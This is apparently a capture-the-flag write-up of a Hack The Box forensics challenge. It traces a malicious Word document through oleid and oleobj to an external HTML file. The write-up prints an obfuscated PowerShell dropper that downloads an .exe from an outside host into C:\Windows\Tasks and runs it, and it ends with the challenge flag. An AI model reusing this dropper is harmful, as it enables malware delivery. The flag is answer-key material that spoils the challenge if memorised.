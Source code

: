 # Write-up :Diagnotic
* *1.Given a host which we can use to retrieve the doc file .download the doc with wget :*
```php
$ wget IP/layoffs.doc
```
* *2.use `oleid` on the document found an External Relationships* 
* *3.use `oleobj` for details* 
* *4.Found relationship 'oleObject' with external link http://diagnostic.htb:32218/223_index_style_fancy.html!* 
* *5.download the html file with wget :*
```php
$ wget IP/223_index_style_fancy.html!
```
* *6. find two base64 chunk in html inside a script tag the first one contain a powershell script :* 
```powershell
${f`ile} = ("{7}{1}{6}{8}{5}{3}{2}{4}{0}"-f'}.exe','B{msDt_4s_A_pr0','E','r...s','3Ms_b4D','l3','toC','HT','0l_h4nD')
&("{1}{2}{0}{3}"-f'ues','Invoke','-WebReq','t') ("{2}{8}{0}{4}{6}{5}{3}{1}{7}"-f '://au','.htb/2','h','ic','to','agnost','mation.di','/n.exe','ttps') -OutFile "C:\Windows\Tasks\$file"
&((("{5}{6}{2}{8}{0}{3}{7}{4}{1}" -f'L9FTasksL9F','ile','ow','L','f','C:','L9FL9FWind','9FkzH','sL9F'))  -CReplAce'kzH',[chAr]36 -CReplAce([chAr]76+[chAr]57+[chAr]70),[chAr]92)
```

* *7.the `file` variable is the **flag**just take the first line to a power shell or reorder the string and you get the flag:* 

flag : HTB{msDt_4s_A_pr0toC0l_h4nDl3r...sE3Ms_b4D}
